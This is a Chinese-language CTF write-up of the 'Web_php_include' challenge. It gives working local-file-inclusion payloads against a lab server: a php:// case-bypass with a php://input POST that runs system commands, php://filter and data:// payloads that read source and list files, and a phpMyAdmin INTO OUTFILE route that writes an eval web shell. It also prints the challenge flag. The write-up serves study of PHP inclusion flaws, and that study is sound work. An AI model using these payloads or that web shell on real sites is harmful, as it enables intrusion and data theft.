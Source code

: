 ```yaml
---
layout: post
title: Web进阶题-Web_php_include
excerpt: "攻防世界进阶Web题目-Web_php_include"
date:   2020-10-13 14:29:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 访问网站，网页正文为

   ```php
   <?php
   show_source(__FILE__);
   echo $_GET['hello'];
   $page=$_GET['page'];
   while (strstr($page, "php://")) {
       $page=str_replace("php://", "", $page);
   }
   include($page);
   ?>
   ```

   * \_\_FILE\_\_，当前文件的绝对地址
   * show_source()对文件进行PHP语法高亮显示
   * 打印GET方法传来的hello参数
   * 将GET方法传来的page参数赋值给$page变量
   * 通过while循环除去$page变量中的"php://"字符串，strstr()返回第一次第二个参数在第一个参数字符串中的位置，当查找失败时返回null
   * include获取指定文件中存在的所有文本、代码、标记

2. 首先绕过*php://*，使用大小写绕过即可，Pnp://。

3. 然后通过php://input，通过POST上传PHP脚本，进而执行系统命令，网页返回内容为"fl4gisisish3r3.php、index.php、phpinfo.php"，发现flag所在的文件名为fl4gisisish3r3.php。

   ```txt
   POST /?page=Php://input HTTP/1.1
   Host: 220.249.52.133:34797
   Content-Length: 20
   
   <?php system("ls")?>
   ```

4. 尝试直接访问，*ip:port/fl4gisisish3r3.php*，网页返回内容为空，看来需要直接读取该PHP源码文件

5. 使用PHP://filter，读取文件，并通过base64编码将它回显，构造访问链接*ip:port/?page=Php://filter//read=convert.base64-encode/resource=./fl4gisisish3r3.php*，网页返回内容为"PD9waHAKJGZsYWc9ImN0Zns4NzZhNWZjYS05NmM2LTRjYmQtOTA3NS00NmYwYzg5NDc1ZDJ9IjsKPz4K"

6. 使用Hasher Chrome扩展进行base64解码，内容如下

   ```php
   <?php
   $flag="ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}";
   ?>
   ```

7. 发现flag，ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}

8. 提交，答案正确   

## 别人的解题方法

### 方法一

1. 使用data://伪协议
2. 获取当前路径，*?page=data://text/plain,\<?php echo $_SERVER['DOCUMENT_ROOT'] ?\>*，网页返回内容为"/var/www"
3. 列出当前路径下的文件，*?page=data://text/plain,\<?php print_r(scandir("/var/www")); ?\>*，网页返回内容为"Array ( [0] => . [1] => .. [2] => fl4gisisish3r3.php [3] => index.php [4] => phpinfo.php )"
4. 查看fl4gisisish3r3.php文件内容，*?page=data://text/plain,\<?php $a_code=file_get_contents("fl4gisisish3r3.php");echo htmlspecialchars($a_code); ?\>，网页返回内容为"\<?php $flag="ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}"; ?\>"

* file_get_contents()把整个文件读入一个字符串
* scandir(dir)返回文件和目录的数组
* print_r()将变量进行打印，string、integer、float类型直接打印变量，array、object会按一定格式进行打印

### 方法二

1. 扫描目录，发现ip:port//phpmyadmin/
2. 使用用户名root，密码为空直接登陆成功
3. 执行sql，"select "\<?php eval(@$_POST['flag']); ?\>" into outfile '/tmp/test.php'",文件写入成功
4. 这个方法我**没有复现成功**，因为这个链接通过浏览器访问不到404，而写入*/var/www*目录没有写权限，所以这个方法比较不明白

## 独立思考

### 1. 为什么PHP代码中会过滤*php://*？

php:// 访问各个输入/输出流(I/O streams)

PHP提供了一些杂项输入/输出流，允许PHP访问PHP的输入输出流、标准输入输出、错误描述符，内存中、磁盘备份的临时文件流以及可以操作其他读写文件资源的过滤器。

| 流                                            | 作用                                          |
| --------------------------------------------- | --------------------------------------------- |
| php://stdin</br>php://stdout</br>php://stderr | 允许直接访问PHP进程相应的输入或输出流         |
| php://input                                   | 是一个可以访问Request的原始数据的只读流       |
| php://output                                  | 允许以和print、echo一样的方式写入到输出缓冲区 |
| php://fd                                      | 允许直接访问指定的文件描述符                  |
| php://memory</br>php://temp                   | 类似文件包装器的数据流，允许读写临时数据      |
| php://filter                                  | 数据流打开时筛选过滤                          |

在CTF中常用的是php://filter和php://input

* php://filter用于读取源码并进行base64编码输出，不然就会直接当作PHP代码执行
  * resource=\<\>，必需参数，它指定了筛选过滤的流
  * read=\<\>，可选参数，定义读链的筛选列表，可以设置一个或多个，以管道符分隔
  * write=\<\>，可选参数，定义写链的筛选列表，可以设置一个或多个，以管道符分隔
  * php://filter/read=convert.base64-encode/resource=\[文件名\]
* php://input用于执行php代码，与POST方法匹配起作用，将POST方法传来的数据作为PHP代码执行
  * url中带上get参数php://input
  * POST数据中带上PHP代码<?php phpinfo()?\>

### 2. include()有什么常见利用方法吗？

include和require语句在作用上大致相同，但是在错误处理方面：

* require会生成致命错误(E_COMPILE_ERROR)，并停止脚本
* include只生成警告(E_WARNING)，并且脚本会继续

所以使用require向执行流引用关键文件，有助于提高应用程序的安全性和完整性。

这也就是说本题应该可能要利用E_WARNING？那E_WARNING很可能在php://stderr里面。

## 产生过的疑问

1. 为什么PHP代码中会过滤*php://*？
2. include()有什么常见利用方法吗？

